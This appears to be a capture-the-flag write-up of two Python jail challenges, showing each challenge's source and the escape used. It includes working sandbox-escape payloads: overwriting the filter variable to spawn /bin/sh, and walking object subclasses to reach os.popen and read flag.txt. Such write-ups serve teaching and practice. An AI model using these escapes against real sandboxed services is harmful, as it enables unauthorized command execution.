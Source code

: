 ## Pyjail01
```py
import unicodedata, string

_ = string.ascii_letters

while True:
    inpt = unicodedata.normalize("NFKC", input("> "))
    
    for i in inpt:
        if i in _:
            raise NameError("No ASCII letters!")
    
    exec(inpt)
```
important observations:
- we can access the _ variable (string.ascii_letters) in the exec
- both python's parser and this chall uses NFKC for normalizing, so it's super unlikely there's some discrepancy

the main breakthrough is noticing the filter doesn't use string.ascii_letters directly, and instead the _ variable\
since we can access _ we can just... overwrite it lmao
```zsh
> _=":3"
> __import__('os').system('/bin/sh')
ls
bin
boot
dev
etc
flag.txt
home
lib
# (...)
usr
var
cat flag.txt
THJCC{3asy_pYj41l_w1th_bl0ck3d_4sc11_a77fb11f}
```

## Pyjail02
```py
import unicodedata

inpt = unicodedata.normalize("NFKC", input("> "))
print(eval(inpt, {"__builtins__":{}}, {}))
```
typical pyjail with no builtins thats it
```py
().__class__.__base__.__subclasses__()[-4].__init__.__globals__['os'].popen('cat flag.txt').read()
```
flag: **`THJCC{pYj41l_w17h_r3m0v3d_bu1l71n5_5ebd37c1}`**
